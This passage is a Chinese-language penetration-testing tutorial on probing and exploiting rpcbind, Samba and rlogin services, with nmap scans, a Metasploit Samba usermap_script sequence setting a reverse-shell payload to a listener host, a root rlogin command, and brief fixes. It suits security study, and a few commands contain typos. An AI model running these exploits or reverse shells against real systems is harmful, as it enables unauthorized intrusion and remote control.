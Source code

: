 

### rpcbind漏洞利用

- rpcbind介绍
  - 通俗的来说，rpcbind是NFS（网络文件系统Network File System）中用来进行消息通知的服务。
  - **一般情况下rpcbind运行在111端口。**并且NFS配置开启rpcbind_enable="YES"
- 探测目标rpcbind
  - 使用`nmap -sV -p 111 IP地址`探测目标rpcbind版本信息。
- nmap脚本探测
  - 在nmap中使用`nmap -p 111 --script=rpcinfo 目标IP地址`来探测目标的rpcinfo信息。
- metasploit模块探测
  - 使用metasploit下的auxiliary/scanner/misc/sunrpc_portmapper 进行目标探测。



### Samba漏洞利用

- Samba介绍

  - Samba是在Linux和UNIX系统上实现SMB协议的一个免费软件，由服务器及客户端程序构成。SMB（Server     Messages     Block，信息服务块）是一种在局域网上共享文件和打印机的一种通信协议，它为局域网内的不同计算机之间提供文件及打印机等资源的共享服务。**一般运行在139、445端口。**

- 探测目标Samba

  - 使用`nmap -sV -p 139,44 IP地址`探测目标端口服务版本信息。

- metasploit漏洞利用

  - 在Metasploit中集成了利用samba usermap RCE的脚本。

    ```
    exploit/mulit/samba/usermap_script
    set rhosts 192.168.43.235
    show payloads
    set payload cmd/unix/reverse
    set lhost 192.168.43.80
    exploit
    ```

- 防御修复

  - 在Metasploit中show info可以查看漏洞信息。
  - 修复方案：升级samba。



### rlogin漏洞利用

- rlogin介绍
  - 远程登录（rlogin）是一个UNIX命令，它允许授权用户进入网络中的其它UNIX机器并且就像用户在现场操作一样。一旦进入主机，用户可以操作主机允许的任何事情。**默认512、513端口**
- 探测目标rlogin
  - 使用 `nmap -sV -p 512,513 IP地址`探测目标login版本信息。
  - 512用于对远程执行的进程进行验证、513反弹bash shell。
- rlogin最高权限登录
  - 使用 `rlogin -l root IP地址`使用root权限登录系统
- 防御修复
  1. 添加root登录验证密码。
  2. 关闭rlogin服务，改用ssh等来管理服务器。
